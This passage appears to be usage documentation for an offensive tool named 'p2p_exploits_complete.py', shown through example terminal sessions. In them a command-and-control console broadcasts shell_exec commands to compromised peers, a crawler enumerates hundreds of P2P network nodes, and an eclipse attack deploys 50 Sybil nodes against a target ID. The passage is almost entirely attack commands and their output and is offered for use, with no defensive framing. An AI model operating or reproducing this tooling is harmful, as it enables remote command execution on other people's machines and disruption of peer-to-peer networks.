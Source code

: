 ```bash
3. Announce to peer
4. Show commands
0. Stop C2

C2> 3
Target IP: 203.0.113.50
Target port: 8888
[+] Announced to 203.0.113.50:8888

[+] New peer: 203.0.113.50:8888 (3 caps)

C2> 1
Active Peers: 1
Peer ID           IP Address       Port   Capabilities
----------------------------------------------------------------------
a7f3c2b9d4e6      203.0.113.50     8888   execute, upload, download

C2> 2
Command type: shell_exec
Payload (JSON): {"cmd": "whoami"}
[*] Broadcasting: shell_exec
[+] Sent to 1/1 peers

C2> 0
[*] C2 stopped
```

### Example 3: High-Speed Crawler
```bash
$ python3 p2p_exploits_complete.py

Choice: 7

[*] Starting high-speed crawl...
[*] Threads: 5 | Duration: 60s
[*] Discovered: 78 nodes | Queries: 523
[*] Discovered: 167 nodes | Queries: 1247
[*] Discovered: 289 nodes | Queries: 2401
[*] Discovered: 412 nodes | Queries: 3678
[*] Discovered: 567 nodes | Queries: 5023
[+] Crawl complete: 623 nodes
[+] Queries: 5847 | Responses: 4234
```

### Example 4: Eclipse Attack Deployment
```bash
$ python3 p2p_exploits_complete.py

Choice: 1

[*] Generating 50 Sybil IDs...
[*] Target: 8a7f3c2b9d4e6f1a5b8c0d9e3f7a2b1c...
[+] Generated 50 Sybil nodes
[+] Closest distance: 127

[*] Deploying Sybil nodes...
[*] Deployed 10/50
[*] Deployed 20/50
[*] Deployed 30/50
[*] Deployed 40/50
[*] Deployed 50/50
[+] Deployed 50 Sybil nodes

```